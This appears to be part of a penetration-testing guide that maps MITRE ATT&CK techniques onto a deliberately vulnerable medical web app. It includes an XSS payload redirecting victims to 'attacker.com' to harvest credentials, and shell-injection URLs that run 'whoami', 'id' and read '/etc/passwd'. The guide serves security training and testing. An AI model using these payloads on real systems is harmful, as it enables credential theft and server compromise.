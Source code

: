 #### T1133: External Remote Services

**Description**: Adversaries may leverage external-facing remote services.

**Vulnerable Component**: Web application exposed on port 8080

**Attack Vector**:
- Direct HTTP access to vulnerable endpoints
- No VPN or additional authentication required

**Testing Steps**:
1. Access application from external network
2. Enumerate endpoints via `api.php`
3. Test unauthenticated access to `search.php`

---

#### T1566.002: Phishing - Spearphishing Link

**Description**: Send link to malicious web page to obtain credentials.

**Vulnerable Component**: XSS vulnerability allows credential harvesting

**Attack Vector**:
```javascript
<script>
window.location='http://attacker.com/fake-login?redirect=' + document.location;
</script>
```

**Testing Steps**:
1. Inject XSS payload into medical notes (patient #20)
2. Send link to victim user
3. Capture credentials when victim logs in

---

### 2. Execution

#### T1059.004: Command and Scripting Interpreter - Unix Shell

**Description**: Execute commands via shell interpreter.

**Vulnerable Component**: `settings.php` - Network Diagnostics feature

**Attack Vector**:
```
http://localhost:8080/settings.php?ping=localhost;whoami
http://localhost:8080/settings.php?ping=localhost;cat+/etc/passwd
```

**Testing Steps**:
1. Login with valid credentials
2. Navigate to Settings → Network Diagnostics
3. Enter: `localhost; id`
4. Execute arbitrary commands
